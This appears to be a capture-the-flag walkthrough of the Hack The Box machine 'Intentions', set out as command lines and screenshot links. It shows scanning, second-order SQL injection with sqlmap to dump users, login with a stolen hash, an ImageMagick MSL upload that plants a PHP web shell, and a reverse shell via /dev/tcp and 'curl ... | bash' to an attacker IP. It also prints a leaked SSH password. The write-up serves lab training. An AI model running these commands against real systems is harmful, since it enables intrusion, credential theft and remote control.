 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)


![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)


![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)


![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)


![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)


![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)


![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)


```
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce76950b-7767-47dd-a328-7d7953ee15f9)


![image](https://github.com/regarmulia/HTB/assets/33616880/0b6871de-0e54-44c1-9d14-27943f81f53b)


![image](https://github.com/regarmulia/HTB/assets/33616880/788c8136-6a8f-4715-95b9-e558c5b1a819)


```
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7446d685-b13d-437d-b177-a34ce4d105a0)


![image](https://github.com/regarmulia/HTB/assets/33616880/36a9081f-c32a-400f-b322-618f52ac3216)


```
curl 'http://intentions.htb/api/v2/admin/image/modify' -X POST -H 'X-XSRF-TOKEN: eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0=' -H 'Cookie: XSRF-TOKEN=eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImVySlh1ZmlzOC9vRXdPaTRHK1A1RHc9PSIsInZhbHVlIjoicitCaW9NTDZNdnBzeVduN0dHek1Gd2gzMHV4ZmxFem9iOEZqUnJRUkg0YWhrdHIxNC9reU5pc3Z3LzhpeUNUdm5HMWhjSFZBZGowTnBvVVNzMnZPbTJGcHRIT205OUxIK2M4Z0RTeTFrVWpnQXlERU1ZOHlEUW9xbWZBV1pKZFQiLCJtYWMiOiJhMzg5NTdhOTQ0NjYwMjNhMWYyNThhYmM2NjljZmNhYWY0NTYzMWMwZGRiY2ZlZjQwYjAyN2Q3NTFmNWMwYWVhIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE3MTYzNjE1MTEsImV4cCI6MTcxNjM4MzExMSwibmJmIjoxNzE2MzYxNTExLCJqdGkiOiJZbGVJc0NkWnAzZXc0NWc2Iiwic3ViIjoiMSIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.Y-yF7_2agtJjTqtFeEThuabmwzTvhDCFoq6tHt0l3zc' -F 'path=vid:msl:/tmp/php*' -F 'effect=asd' -F file=@payload.msl
http://intentions.htb/storage/rce.php?c=ls
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c9c6203b-fe5d-4877-ac23-646845ae13ff)


![image](https://github.com/regarmulia/HTB/assets/33616880/d1878460-5ead-4c80-b142-42758ed435ac)


```
/bin/bash -i >& /dev/tcp/10.10.14.6/9001 0>&1
nc -nlvp 9001
http://intentions.htb/storage/rce.php?c=curl%2010.10.14.6/shell|bash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a087ac9e-afc2-423c-ac18-cb36c5d1f97c)

![image](https://github.com/regarmulia/HTB/assets/33616880/cd0cd12f-2df6-49c2-a38e-d4c5ceb77159)

![image](https://github.com/regarmulia/HTB/assets/33616880/c633d585-805d-4e35-8053-fd525fe104e3)


```
ls –la
git log –p
git config --global --add safe.directory /var/www/html/intentions
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f7596d08-39a1-4d35-b979-c91fb211ed4d)


```
HOME=/tmp git config --global --add safe.directory /var/www/html/intentions
HOME=/tmp git log –p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c4c5df4-014a-4c78-9f4a-d08ae2d9c0c2)


```
ssh greg@intentions.htb
Gr3g1sTh3B3stDev3l0per!1998!
```
![image](https://github.com/regarmulia/HTB/assets/33616880/95449770-cf05-4dbf-8dd2-634e8a9027a1)


```
/opt/scanner/scanner -d /home/legal/uploads -h /home/greg/dmca_hashes.test
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c38c8eac-7ea4-4d58-ada5-db7a90e2af7a)

![image](https://github.com/regarmulia/HTB/assets/33616880/722f714b-d18a-4103-8847-5969f95d9ce1)


```
getcap /opt/scanner/scanner
```
![image](https://github.com/regarmulia/HTB/assets/33616880/aa4e9ed7-dffe-4663-a2a1-7d290941534d)

